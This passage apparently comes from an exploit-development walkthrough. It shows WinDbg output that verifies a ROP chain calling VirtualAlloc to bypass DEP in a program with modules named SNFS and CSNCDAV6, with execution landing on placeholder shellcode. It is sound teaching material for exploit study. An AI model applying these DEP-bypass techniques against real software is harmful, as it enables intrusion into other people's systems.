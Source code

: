 1. We return out of `VirtualAlloc` and obtain the address of the first instruction `0193e4b4`.
    
    ```python
    0:006> p
    eax=0193e2ec ebx=42424242 ecx=ffffffe8 edx=db2934c0 esi=42424242 edi=42424242
    eip=76ca4d30 esp=0193e2f4 ebp=41414141 iopl=0         nv up ei pl nz na po cy
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
    KERNEL32!VirtualAllocStub:
    76ca4d30 8bff            mov     edi,edi
    0:006> dds esp L1
    0193e2f4  0193e4b4
    ```
    
2. We dump the contents of the stack and obtain the address where the ROP chain ends `0193e4b4`
    
    ```python
    0:006> dds esp + 180
    0193e474  80808080
    0193e478  10022a64 SNFS!std::basic_string<char,std::char_traits<char>,std::allocator<char> >::compare+0xa3
    0193e47c  7f7f7fc0
    0193e480  10012ef4 SNFS!_DestructExceptionObject+0x86
    0193e484  42424242
    0193e488  00000040
    0193e48c  5021376f CSNCDAV6!EncodeFileW+0x9617
    0193e490  100252e0 SNFS!_imp__VirtualAlloc
    0193e494  0193e304
    0193e498  1001526c SNFS!_dosmaperr+0x46
    0193e49c  10022a64 SNFS!std::basic_string<char,std::char_traits<char>,std::allocator<char> >::compare+0xa3
    0193e4a0  ffffffe8
    0193e4a4  10012ef4 SNFS!_DestructExceptionObject+0x86
    0193e4a8  42424242
    0193e4ac  0193e2ec
    0193e4b0  1001a555 SNFS!_except_handler3+0xb9
    0193e4b4  cccccccc
    0193e4b8  cccccccc
    ```
    
3. We notice no difference between the two and we are lucky enough to land exactly on our shellcode location.
    
    ```python
    0:006> ? 0193e4b4 - 0193e4b4
    Evaluate expression: 0 = 00000000
    ```
    

We step through our instructions and we can confirm that our shellcode are executed. Now to add a real payload!

```python
0:006> ? 0193e4b4 - 0193e4b4
Evaluate expression: 0 = 00000000
0:006> pt
eax=0193e000 ebx=42424242 ecx=0193e2c4 edx=770313a0 esi=42424242 edi=42424242
eip=75084c61 esp=0193e2f4 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
KERNELBASE!VirtualAlloc+0x51:
75084c61 c21000          ret     10h
0:006> p
eax=0193e000 ebx=42424242 ecx=0193e2c4 edx=770313a0 esi=42424242 edi=42424242
eip=0193e4b4 esp=0193e308 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0193e4b4 cc              int     3
```
